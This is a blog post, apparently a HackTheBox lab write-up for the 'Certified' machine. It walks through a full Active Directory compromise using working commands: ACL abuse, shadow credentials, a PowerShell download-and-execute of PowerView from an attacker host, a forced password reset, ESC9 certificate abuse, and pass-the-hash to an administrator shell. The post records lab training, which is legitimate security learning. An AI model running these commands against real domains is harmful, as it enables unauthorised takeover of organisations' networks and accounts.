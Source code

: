 ```yaml
---
layout: post
title: "Certified"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


 g-afirst assumed breach scenario from HTB , no nmap this time the name of box is Certified from the name , I would assume the box is related to the ADCS , and the box will be DC 

`judith.mader:judith09`


![[Pasted image 20241104020425.png]]

we already have foothold , I will run bloodhound to hunt for interesting ACLs  


```bash
 nxc ldap 10.129.48.103 -u 'judith.mader' -p judith09 --bloodhound  -c  all  --dns-server 10.129.48.103
```


on bloodhound we can see that our user got some interesting ACLs 
![[Pasted image 20241104021536.png]]


### WriteOwner Abuse

this will allow us to change the owner of the group

first change the owner of group , to our user
```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target 'MANAGEMENT'  certified.htb/'judith.mader':'judith09'
```

![[Pasted image 20241104022215.png]]

now we can grantee add member right to our controlled user 
```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' certified.htb/judith.mader:'judith09'
```

![[Pasted image 20241104022329.png]]

==Note: we can use the .bak file to restore the old state of the user== 

add our user to the Management group 
```bash
net rpc group addmem "MANAGEMENT" "judith.mader" -U "certified.htb"/"judith.mader" -S "10.129.48.103"
```


we can verify , that the operation has been done completed successfully 

```bash
net rpc group members  "MANAGEMENT"  -U "certified.htb"/"judith.mader" -S "10.129.48.103"
```

### GenericWrite

now we are members of `MANAGEMENT` group , so we can abuse `GenericWrite` to take over management_svc  user 

![[Pasted image 20241104023652.png]]

I will use a shadow credential attack 
```bash
certipy shadow auto -u 'judith.mader@certified.htb' -p judith09  -account MANAGEMENT_SVC
```

![[Pasted image 20241104042657.png]]

==I had a CLock skew error , and I fixed using sudo ntpdate TARGET_IP==


### GenericAll

![[Pasted image 20241104042840.png]]

`management_svc` is member of remote management users so we can use `evil-winrm` to  get shell , on the machine 

```bash
evil-winrm -i 10.129.48.103 -H a091c1832bcdd4677c28b5a6a1295584 -u management_svc
```

![[Pasted image 20241104043050.png]]


we can use `GenericAll` to force change password of the `ca_operator` , to do that from  a powershell session , we will need `PowerView.ps1`

```Powershell
iex (New-Object Net.WebClient).DownloadString('http://10.10.14.28:8080/PowerView.ps1')
```

```PowerShell
$UserPassword = ConvertTo-SecureString 'd0s3nt.was.here' -AsPlainText -Force

Set-DomainUserPassword -Identity ca_operator -AccountPassword $UserPassword 
```
 
![[Pasted image 20241104044409.png]]


### ESC9



enumerating for vulnerable template

```bash
certipy find -u 'ca_operator' -p 'd0s3nt.was.here'  -dc-ip 10.129.48.103  -vulnerable -stdout
```

![[Pasted image 20241104044856.png]]

ESC9 allow us to abuse the absence of the strong mapping  , for more check this https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7

to exploit this we need `GenericWrite\GenericAll` over any domain user , we will  use `management_svc` rights over `ca_operator`

update UPN to the administrator 
```bash
certipy account update   -u 'management_svc' -hashes ':a091c1832bcdd4677c28b5a6a1295584' -dc-ip 10.129.48.103 -user ca_operator -upn administrator@certified.htb
```

request a certificate using the `ca_operator` , the Upn we modified earlier will be used to map the certificate , so it will be issued with administrator privileges 
```bash
certipy req  -u 'ca_operator' -p d0s3nt.was.here  -dc-ip 10.129.48.103 -template CertifiedAuthentication -ca certified-DC01-CA
```

![[Pasted image 20241104045540.png]]

reset the Upn back , if we didn't reset it we will have problems using certificate to authenticate 

```bash
certipy account update   -u 'management_svc' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -dc-ip 10.129.48.103 -user ca_operator -upn ca_operator@certified.htb
```



```bash
certipy auth -pfx administrator.pfx    -domain certified.htb -dc-ip 10.129.48.103
```

![[Pasted image 20241104045751.png]]



```bash
 impacket-psexec certified.htb/administrator@10.129.48.103 -hashes aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

![[Pasted image 20241104045830.png]]